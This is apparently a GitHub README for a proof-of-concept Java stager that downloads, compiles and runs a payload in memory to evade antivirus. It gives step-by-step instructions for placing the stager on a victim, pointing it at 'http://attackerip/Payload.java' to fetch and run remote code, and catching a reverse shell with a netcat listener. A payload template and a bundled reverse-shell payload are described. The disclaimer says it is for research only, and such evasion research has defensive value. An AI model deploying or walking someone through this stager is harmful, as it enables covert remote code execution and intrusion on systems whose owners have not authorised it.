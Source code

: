 # java-stager
A PoC Java Stager which can download, compile, and execute a Java file in memory.

This is for research purposes only, do not use this where you are unauthorised to do so.

# What is this?

This is based on the work of James Williams from his talk "Next Gen AV vs My Shitty Code" available here:

https://www.youtube.com/watch?v=247m2dwLlO4&feature=youtu.be

The key parts of the talk for me are:

* Load a Stager onto victim (touches disk, but is a benign binary)
* Stager downloads raw code over HTTP (which stays in memory)
* Stager compiles raw code (also in memory)
* Stager then executes compiled code (also in memory)

His example is in .net, but in the talk he suggested that Java would be capable of the same techniques. I have implemented a raw PoC which I think matches the above techniques.

# Working with it

* Clone down the entire repository.
* Open it in an IDE which can use maven (such as NetBeans)
* The Stager, and the example payload are available in the "/src/main/java" folder.
* Alter the Stager as you would like and compile the project. I was using "clean/build" in the default profile.

The output in NetBeans Included a line like this:

`Building jar: C:\Users\cornerpirate\Documents\NetBeansProjects\java-stager\target\JavaStager-0.1-initial.jar`

To work on your victim you must upload the "JavaStager*.jar" file and the "lib" folder containing Janino from the "target" folder.

The following command will execute the stager:

`java -jar JavaStager-0.1-initial.jar`

You will be prompted with the usage as shown:

`Proper Usage is: java -jar JavaStager-0.1-initial.jar <url>`

The "url" is the only parameter that is passed to Stager. An example usage would be:

`java -jar JavaStager-0.1-initial.jar http://attackerip/Payload.java`

Your payload must be in a file called "Payload.java" and your exploit code must be in a static method called "Run". The following shows the template if you want to write your own:

```
public class Payload {
   public static void Run() {
      // Your code here
   }
}
```

I have provided an example Reverse TCP payload in the file "TCPReverseShell.java". To prevent name clashes this is not called "Payload.java" and the class name is wrong. 
The header comment in "TCPReverseShell.java" explains how to modify it to work.

You will need to host your "Payload.java" file on an HTTP server. You can use Apache if you want or simple HTTP/HTTPS services in Python2 and Python3 as per my blog:

https://cornerpirate.com/2016/12/16/simple-http-or-https-servers/

The attacker will need to start a netcat listener to catch the connection back using the standard `nc -lvp 8044` technique.

# More Information

Blog Post explaining how it all works:

https://cornerpirate.com/2018/08/06/java-stager-hide-from-av-in-memory/

Video Showing how it worked in practice:

https://www.youtube.com/watch?v=-KkJVdSHPAc
